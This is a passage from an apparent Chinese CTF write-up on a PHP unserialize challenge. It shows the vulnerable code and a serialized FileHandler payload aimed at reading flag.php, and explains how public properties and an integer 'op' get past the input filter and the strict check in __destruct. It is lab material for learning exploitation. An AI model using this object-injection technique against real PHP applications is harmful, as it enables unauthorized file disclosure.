 ```php
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125)) //返回ascii码值
            return false;
    return true;
}
if(isset($_GET{'str'})) { 
    $str = (string)$_GET['str'];
    if(is_valid($str)) {  //str参数的每个字符必须在is_valid限制的ascii码范围之内
        $obj = unserialize($str);
    }

}
```

拿到本地来运行,注意这里的`protected`属性无法在类外面给其赋值,遂直接在类内部赋值

```php
<?php
class FileHandler {
    protected $op="2";
    protected $filename="flag.php";
    protected $content;

}
$a = new FileHandler();
$b = serialize($a);
echo $b; 
?>
```

序列化的结果:

```
O:11:"FileHandler":3:{s:5:"*op";s:1:"2";s:11:"*filename";s:8:"flag.php";s:10:"*content";N;}
```

但这里问题就来了,对于`private`和`protected`的属性,在反序列化时需要在相应的类名或者`*`两侧加上`%00`,但是本题的代码中,`%00`并不在`is_valid`函数允许的范围里

**这里服务器的版本是PHP7.4.3,对修饰符不敏感,因此直接改成`public`就行**

另外, 我们需要在反序列化后通过自动调用的`__destruct()`函数来调用`process()`,然后再调用`read`来达到读取`flag.php`的目的

但是`__destruct()`函数如果检测到`op`的值为2,会将其变为1

但是注意到`__destruct()`中用的是`===`强比较,会检测数据的类型, 而在`process()`中用的是弱比较,只检测值,所以传数值型的`op`就可以绕过`__destruct()`中的判断了

修改后的代码:
